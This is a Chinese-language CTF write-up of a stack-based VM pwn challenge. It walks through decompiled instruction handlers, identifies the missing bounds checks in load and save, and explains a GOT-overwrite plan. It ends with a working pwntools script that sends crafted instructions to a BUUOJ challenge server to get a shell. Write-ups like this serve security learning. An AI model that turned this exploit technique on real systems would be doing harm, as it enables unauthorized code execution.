




做的第一题vmpwn，选了个最简单的vmpwn。




可以看到这里初始化的时候就申请了4个堆区。其中s是储存的name，date是数据，ptr是临时储存空间。之后就是move则是解析过之后的命令。至于ptr_1则是栈空间。



jiexi函数则是对写入的命令数据进行解析为命令符。



之后让我们去每一个命令执行，看看会发送什么。

```
__int64 __fastcall sub_4014B4(__int64 a1, _QWORD *a2)
{
  if ( !a1 )
    return 0;
  if ( *(_DWORD *)(a1 + 12) == -1 )
    return 0;
  *a2 = *(_QWORD *)(*(_QWORD *)a1 + 8LL * (int)(*(_DWORD *)(a1 + 12))--);
  return 1;
}
```

前置命令，这个是从a1的顶里面弹出一个数值到a2进行临时储存。

```
__int64 __fastcall sub_40144E(__int64 v6, __int64 ptra)
{
  int v3; // [rsp+1Ch] [rbp-4h]

  if ( !v6 )
    return 0;
  v3 = *(_DWORD *)(v6 + 12) + 1;
  if ( v3 == *(_DWORD *)(v6 + 8) )
    return 0;
  *(_QWORD *)(*(_QWORD *)v6 + 8LL * v3) = ptra;
  *(_DWORD *)(v6 + 12) = v3;
  return 1;
}
```

这个函数则刚好相反是把ptra里面的数据压入v6中。

```
_BOOL8 __fastcall push(__int64 a1, __int64 date)
{
  __int64 ptra; // [rsp+18h] [rbp-8h] BYREF

  return (unsigned int)sub_4014B4(date, &ptra) && (unsigned int)sub_40144E(a1, ptra);
}
```

push命令，很明显是从date里面取出数据之后放入a1（也就是ptr_1）里面。

```
_BOOL8 __fastcall pop1(__int64 a1, __int64 date)
{
  __int64 ptra; // [rsp+18h] [rbp-8h] BYREF

  return (unsigned int)sub_4014B4(a1, &ptra) && (unsigned int)sub_40144E(date, ptra);
}
```

pop命令，则相反，是从ptr_1里面取出数据然后放在了date里面。

```
__int64 __fastcall add(__int64 a1, __int64 date)
{
  __int64 v3; // [rsp+10h] [rbp-10h] BYREF
  __int64 v4; // [rsp+18h] [rbp-8h] BYREF

  if ( (unsigned int)sub_4014B4(a1, &v3) && (unsigned int)sub_4014B4(a1, &v4) )
    return sub_40144E(a1, v4 + v3);
  else
    return 0;
}
```

add函数则是从ptr_1里面取出两个数据然后加在一起放到ptr_1里面。

```
__int64 __fastcall sub(__int64 a1, __int64 date)
{
  __int64 v3; // [rsp+10h] [rbp-10h] BYREF
  __int64 v4; // [rsp+18h] [rbp-8h] BYREF

  if ( (unsigned int)sub_4014B4(a1, &v3) && (unsigned int)sub_4014B4(a1, &v4) )
    return sub_40144E(a1, v3 - v4);
  else
    return 0;
}
```

sub函数相反，是数据相减。

mul跟div就不讲了，一个相乘一个相除。

```
__int64 __fastcall load(__int64 a1, __int64 date)
{
  __int64 v3; // [rsp+10h] [rbp-10h] BYREF

  if ( (unsigned int)sub_4014B4(a1, &v3) )
    return sub_40144E(a1, *(_QWORD *)(*(_QWORD *)a1 + 8 * (*(int *)(a1 + 12) + v3)));
  else
    return 0;
}
```

load函数，先从ptr_1弹出一个数据，然后以这个数据为索引去找值然后压入ptr_1

```
__int64 __fastcall save(__int64 a1, __int64 date)
{
  __int64 v3; // [rsp+10h] [rbp-10h] BYREF
  __int64 v4; // [rsp+18h] [rbp-8h] BYREF

  if ( !(unsigned int)sub_4014B4(a1, &v3) || !(unsigned int)sub_4014B4(a1, &v4) )
    return 0;
  *(_QWORD *)(8 * (*(int *)(a1 + 12) + v3) + *(_QWORD *)a1) = v4;
  return 1;
```

这个save函数则是从ptr_1里面取出两个数据然后用v3作为索引去找位置然后写入v4。

两个函数没有任何边界检查，回到创建函数可以看到，



中间三个主要的数据区的地址都有一个紧邻的小堆块进行储存。如果我们能控制这个小堆块也就能控制写入的区域了。

程序的got表是可改写的，并且libc版本也是明牌的，能拿到函数之间的相对偏移。我们只需要控制ptr_1到puts函数的got表，然后用pop取出libc基质然后用sub/add命令对got表进行修改，然后在s里面写入/bin/sh就能之间拿到shell了。主要控制got表之前命令不要push完，不然数据区一转就啥都没了。

如何控制got表，就要用到save边界溢出到相邻堆块了。

```
from pwn import *

context.arch = 'amd64'
r=remote('node5.buuoj.cn',29909)
#r = process('./1')

payload = b"/bin/sh\x00"
r.sendlineafter(b'Your program name:\n',payload)
#
payload1 = b'push push push push push save push load push add'
r.sendlineafter(b'Your instruction:\n',payload1)
payload2 = b'0 0 0 4210696 -6 0 -258400'
r.sendlineafter(b'Your stack data:\n',payload2)

r.interactive()
```

